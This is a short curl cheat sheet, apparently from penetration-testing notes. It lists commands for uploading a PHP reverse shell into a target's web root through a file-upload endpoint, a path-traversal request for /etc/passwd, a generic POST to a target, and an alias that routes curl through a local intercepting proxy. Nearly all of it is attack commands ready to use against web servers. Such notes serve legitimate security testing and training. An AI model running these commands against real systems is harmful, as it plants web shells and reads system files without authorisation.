 
Upload shell using post request and additional parameters:
---
```bash
curl -X POST "$TARGET_URL/file-upload" -F "file=@rev.php.txt" -F "filename=/var/www/html/rev.php"
```


```bash
curl --header "Content-Type: application/json" --request POST -d @data.json http://$TARGET_IP
```

```bash
curl --path-as-is http://$TARGET_URL/../../../../../../../../etc/passwd
```

```bash
alias burl="curl -x localhost:8080 -k "
```